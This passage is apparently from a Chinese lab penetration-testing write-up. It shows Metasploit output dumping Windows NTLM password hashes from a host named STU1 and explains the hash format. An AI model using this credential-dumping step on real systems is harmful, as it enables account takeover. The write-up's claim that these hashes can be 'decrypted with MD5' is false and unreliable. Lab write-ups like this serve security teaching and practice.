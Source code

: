 [![](assets/1701827767-573900ad4a84bac2d2786642415f73f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205085347-bfa4cd6a-9308-1.png)

```bash
[] 针对 STU1 运行模块
[] 如果连接，哈希值将保存到数据库中。
[+] 哈希值将以 JtR 密码文件格式保存在战利品中： 
[] /root/.msf4/loot/20211105144910_default_192.168.254.130_windows.hashes_151319.txt
[] 倾销密码哈希... 
[] 以 SYSTEM 身份运行，从注册表中提取哈希值
[] 获取启动密钥... 
[] 使用 SYSKEY fd4639f4e27c79683ae9fee56b44393f 计算 hboot 密钥...
[] 获取用户列表和密钥... 
[] 解密用户密钥...
[] 转储密码提示...
[] 在这个系统上没有有密码提示的用户
[] 倾销密码哈希... 
[+] 管理员：500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
[+] liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
[+] srn7:1001:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::
```

```bash
密码格式
用户名称：RID:LM-HASH 值:NT-HASH 值
rid 是 windows 系统账户对应固定的值，类似于 linux 的 uid，gid 号，500 为 administrator，501 为 guest 等
LM-Hash 和 NT-Hash，这是对同一个密码的两种不同的加密方式，可采用 MD5 解密；
```

## 远程桌面连接：
